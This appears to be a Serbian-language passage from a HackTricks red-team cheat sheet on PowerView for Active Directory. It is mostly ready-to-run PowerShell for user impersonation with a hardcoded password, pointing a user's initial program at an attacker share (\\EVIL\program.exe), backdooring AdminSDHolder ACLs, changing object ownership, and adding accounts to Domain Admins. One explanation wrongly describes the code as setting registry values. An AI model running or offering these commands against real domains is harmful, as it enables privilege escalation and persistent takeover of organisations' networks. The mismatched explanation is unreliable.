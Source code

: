 Ova komanda omogućava da se impersonira određeni korisnik. Potrebno je navesti korisničko ime `<username>` koje želite da impersonirate.

```powershell
# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```

#### Postavi vrednosti

```powershell
Set-Value
```

Ova funkcija se koristi za postavljanje vrednosti u registru. Može se koristiti za postavljanje vrednosti u bilo kojem ključu registra, uključujući i ključeve koji su zaštićeni od promene.

```powershell
# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
# Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
# Add user to 'Domain Admins'
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
